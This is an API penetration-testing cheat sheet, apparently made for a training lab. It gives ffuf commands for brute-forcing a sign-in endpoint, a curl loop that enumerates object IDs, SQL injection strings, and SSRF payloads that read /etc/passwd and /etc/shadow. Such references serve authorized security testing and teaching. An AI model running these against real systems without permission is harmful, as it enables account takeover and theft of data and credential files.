 # API Security Testing Commands Cheat Sheet

## Password Brute-Forcing with ffuf

### Basic Usage
```bash
ffuf -w /path/to/passwords.txt:PASS \
     -w /path/to/emails.txt:EMAIL \
     -u http://target.com/api/v1/authentication/customers/sign-in \
     -X POST \
     -H "Content-Type: application/json" \
     -d '{"Email": "EMAIL", "Password": "PASS"}' \
     -fr "Invalid Credentials" \
     -t 100
```

**Flags:**
- `-w`: Specify wordlist with keyword (e.g., `PASS`, `EMAIL`)
- `-u`: Target URL
- `-X`: HTTP method
- `-H`: HTTP header
- `-d`: POST data
- `-fr`: Filter by regex (exclude responses matching pattern)
- `-t`: Number of threads

## File Generation with dd

### Create Random File
```bash
# Create 30MB file
dd if=/dev/urandom of=certificateOfIncorporation.pdf bs=1M count=30

# Create 10MB file
dd if=/dev/urandom of=reverse-shell.exe bs=1M count=10
```

**Parameters:**
- `if`: Input file (`/dev/urandom` for random data)
- `of`: Output file
- `bs`: Block size (e.g., `1M` = 1 megabyte)
- `count`: Number of blocks

## API Testing with cURL

### Basic GET Request
```bash
curl -X 'GET' \
  'http://target.com/api/v1/endpoint' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer YOUR_JWT_TOKEN'
```

### POST Request
```bash
curl -X 'POST' \
  'http://target.com/api/v1/endpoint' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{"key": "value"}'
```

### Download File
```bash
curl -O http://target.com/path/to/file.exe
```

### Mass Enumeration with Loop
```bash
for ((i=1; i<=20; i++)); do
  curl -s -w "\n" -X 'GET' \
    'http://target.com/api/v1/endpoint/'$i'' \
    -H 'accept: application/json' \
    -H 'Authorization: Bearer YOUR_JWT_TOKEN' | jq
done
```

**Flags:**
- `-s`: Silent mode (no progress bar)
- `-w "\n"`: Add newline after response
- `-X`: HTTP method
- `-H`: HTTP header
- `-d`: POST data
- `-O`: Save output to file with same name

## JSON Processing with jq

### Pretty Print JSON
```bash
curl ... | jq
```

### Extract Specific Field
```bash
curl ... | jq '.fieldName'
```

### Filter Array
```bash
curl ... | jq '.[] | select(.field == "value")'
```

## SQL Injection Payloads

### Basic Testing
```
laptop'
```

### Boolean-Based
```
laptop' OR 1=1 --
```

### Comment Out Rest of Query
```
payload' --
payload' #
```

## JWT Token Handling

### Copy JWT from Response
Look for response field containing token:
```json
{
  "token": "eyJhbGc..."
}
```

### Use JWT in Authorization Header
```bash
-H 'Authorization: Bearer eyJhbGc...'
```

## SSRF Testing Payloads

### Local File Access (Linux)
```
file:///etc/passwd
file:///etc/shadow
```

### Local File Access (Windows)
```
file:///C:/Windows/System32/drivers/etc/hosts
```

## Base64 Decoding

### Using Command Line
```bash
echo "BASE64_STRING" | base64 -d
```

### Using CyberChef
Navigate to CyberChef and use "From Base64" operation

## Common Wordlists

### Passwords
- `/opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt`
- SecLists: Common passwords collections

### General Purpose
- SecLists: Comprehensive security testing wordlists
- Available at: https://github.com/danielmiessler/SecLists

## Testing Checklist

1. **Authentication Endpoints**
   - Test rate limiting
   - Brute force attempts
   - Weak password policies

2. **Authorization**
   - Test BOLA (modify IDs)
   - Test BFLA (access privileged endpoints)
   - Test mass assignment

3. **File Upload**
   - Test file size limits
   - Test file extension validation
   - Test file content validation

4. **Data Exposure**
   - Check response fields
   - Test different user roles
   - Check deleted/legacy data

5. **Injection**
   - SQL injection in parameters
   - SSRF in URL fields
   - Command injection

6. **API Versioning**
   - Enumerate versions
   - Test deprecated endpoints
   - Check for unauthenticated access
